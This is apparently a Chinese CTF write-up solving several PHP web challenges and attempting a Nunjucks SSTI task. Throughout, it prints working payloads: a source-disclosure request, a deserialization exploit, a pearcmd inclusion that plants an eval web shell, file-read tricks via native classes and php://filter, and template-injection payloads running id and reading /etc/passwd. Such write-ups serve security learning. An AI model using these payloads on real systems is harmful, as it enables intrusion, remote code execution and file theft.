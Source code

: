 ## funnyPHP



首先给了一个 `phpinfo()`，给了 PHP version 7.4.21，并且说 `puzzle.php` 里面有东西，去到 `puzzle.php`

![puzzle](images/puzzle.png)

根据给的 `phpinfo()` 信息，PHP 版本是 7.4.21，存在远程源码泄露漏洞

```none
GET /puzzle.php HTTP/1.1
Host: 47.104.14.160:3345


GET / HTTP/1.1
```



这里注意要把 `content-length` 关掉，攻击效果如图

![phpLeak](images/phpLeak.png)



得到源码，构造 pop 链攻击，这里就比较简单了，只需要让 C 类里面的 `$this->b=true` 即可，并且构造 sdpc 为 `Evil::getflag`，最终 EXP 如下

```php
<?php
error_reporting(0);

class A{
    public $sdpc = ["sdpc" => ["Evil","getflag"]];
}


class C{
    public $b;
    protected $c;

    function __construct(){
        $this->c = new A();
        $this->b =true;
    }

}

$a = new C();
$b = serialize($a);
echo urlencode($b);

?>
```

![funnyPHPFlag](images/funnyPHPFlag.png)

## ezinclude

简单的文件包含，最简单的过滤没做，可以直接读 `etc/passwd`

![funnyPHPFlag](images/etcPasswd.png)

但是这里读不到 flag，尝试写入🐎，如果要写🐎，并且在伪协议被 ban 的情况下，明显是 P 神的这篇文章

https://www.leavesongs.com/PENETRATION/docker-php-include-getshell.html

用 pearcmd 的方式进行文件包含写 shell

- config-create

payload

```none
?+config-create+/&file=/usr/local/lib/php/pearcmd.php&/<?=@eval($_POST['cmd']);?>+/tmp/test.php
```

连马拿 flag



## ezphp

```php
<?php
error_reporting(0);
highlight_file(__FILE__);
$g = $_GET['g'];
$t = $_GET['t'];
echo new $g($t);
```

考的原生类

```payload
/?g=DirectoryIterator&t=glob://f*
```

读取到存在 flag.php，读

![funnyPHPFlag](images/dir.png)

原生类读 flag

```payload
/?g=SplFileObject&t=php://filter/convert.base64-encode/resource=flag.php
```

![funnyPHPFlag](images/ezphpFlag.png)



PD9waHANCiRmbGFnID0gImZsYWd7ZDczMmVlYTAtNjNkYy00OTA5LWE5YjAtYTYzOWQ4ZTE4YWE2fSI7DQo/Pg==

$flag = "flag{d732eea0-63dc-4909-a9b0-a639d8e18aa6}

## babyphp

```php
<?php
highlight_file(__FILE__);
error_reporting(0);

$num = $_GET['num'];

if (preg_match("/\'|\"|\`| |<|>|?|\^|%|\$/", $num)) {
    die("nononno");
}

if (eval("return ${num} != 2;") && $num == 0 && is_numeric($num) != true) {
    system('cat flag.php');
} else {
    echo '2';
}
```

简单题，payload

```payload
/?num=%00000
```

![funnyPHPFlag](images/babyPHPFlag.png)



## Nunjucks



Nunjucks 是一个模板引擎，这个题目尝试用 1，1 登录，发现 username 似乎是被拼接了，那么 ssti 点应该是在 username 的输入框里头

探测漏洞，`username={{7*7}}`，回显是 49，证明存在 SSTI

![funnyPHPFlag](images/sstiPOC.png)



先用这个 payload 打，发现会被拦截

```payload
{% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__ == 'catch_warnings' %}{% for b in c.__init__.__globals__.values() %}{% if b.__class__ == {}.__class__ %}{% if 'eval' in b.keys() %}{{ b['eval']('__import__("os").popen("id").read()') }}{% endif %}{% endif %}{% endfor %}{% endif %}{% endfor %}
```

换了一个 payload 打

```payload
{{range.constructor("return global.process.mainModule.require('child_process').execSync('tail /etc/passwd')")()}}
```

还是会被 ban，尝试其他 payload，最终还是没打出来









